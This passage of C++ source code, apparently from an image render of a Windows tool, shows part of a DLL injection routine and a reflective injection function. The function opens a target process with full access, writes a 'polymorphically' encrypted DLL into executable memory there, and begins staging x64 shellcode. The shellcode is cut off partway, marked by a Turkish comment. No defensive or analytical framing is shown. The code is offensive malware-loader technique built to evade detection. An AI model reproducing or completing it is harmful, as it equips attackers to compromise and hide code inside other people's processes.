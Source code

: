         if (!hThread) {
            VirtualFreeEx(hProcess, remoteMem, 0, MEM_RELEASE);
            CloseHandle(hProcess);
            return false;
        }
        
        WaitForSingleObject(hThread, INFINITE);
        
        VirtualFreeEx(hProcess, remoteMem, 0, MEM_RELEASE);
        CloseHandle(hThread);
        CloseHandle(hProcess);
        
        return true;
    }
    
    static bool InjectDLLReflective(DWORD processId, const std::vector<BYTE>& dllBytes) {
        HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, processId);
        if (!hProcess) return false;
        
        LPVOID remoteMem = VirtualAllocEx(hProcess, NULL, dllBytes.size(), 
            MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
            
        if (!remoteMem) {
            CloseHandle(hProcess);
            return false;
        }
        
        std::vector<BYTE> encryptedDll = dllBytes;
        Polymorphic::EncryptSection(encryptedDll.data(), encryptedDll.size());
        
        if (!WriteProcessMemory(hProcess, remoteMem, encryptedDll.data(), 
            encryptedDll.size(), NULL)) {
            VirtualFreeEx(hProcess, remoteMem, 0, MEM_RELEASE);
            CloseHandle(hProcess);
            return false;
        }
        
        BYTE shellcode[] = {
            0x48, 0x89, 0x5C, 0x24, 0x08,       // mov qword ptr [rsp+8], rbx
            0x48, 0x89, 0x6C, 0x24, 0x10,       // mov qword ptr [rsp+10h], rbp
            0x48, 0x89, 0x74, 0x24, 0x18,       // mov qword ptr [rsp+18h], rsi
            0x57,                               // push rdi
            0x48, 0x83, 0xEC, 0x20,             // sub rsp, 20h
            0x48, 0x8B, 0xF1,                   // mov rsi, rcx
            // ... shellcode devam eder ...
        };
        
        LPVOID remoteShellcode = VirtualAllocEx(hProcess, NULL, sizeof(shellcode), 
            MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
            
        if (!remoteShellcode) {
            VirtualFreeEx(hProcess, remoteMem, 0, MEM_RELEASE);
            CloseHandle(hProcess);
            return false;
        }
        